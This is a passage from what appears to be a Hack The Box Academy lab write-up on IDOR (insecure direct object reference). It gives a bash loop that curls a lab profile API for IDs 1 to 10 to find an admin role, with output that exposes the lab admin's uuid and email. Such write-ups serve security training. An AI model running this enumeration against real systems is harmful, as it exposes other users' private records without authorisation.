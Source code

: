 ![Burp Suite - IDOR PUT (`uid`) 1](./assets/screenshots/web_attacks_chaining_idor_vulnerabilities_burpsuite_idor_put_uid_1.png)

```shell
#!/bin/bash

url="http://83.136.253.105:59347/profile/api.php/profile"

for i in {1..10}; do
		echo -ne "$i\t"
		curl -s "$url/$i" | grep -oP "\"role\":\".*?\""
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ ./script.sh 

1	"role":"employee"
2	"role":"employee"
3	"role":"employee"
4	"role":"employee"
5	"role":"employee"
6	"role":"employee"
7	"role":"employee"
8	"role":"employee"
9	"role":"employee"
10	"role":"staff_admin"

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ze3vtx4chf]─[~]
└──╼ [★]$ url="http://83.136.253.105:59347/profile/api.php/profile"; curl -s "$url/10" | jq

{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "admin@employees.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```
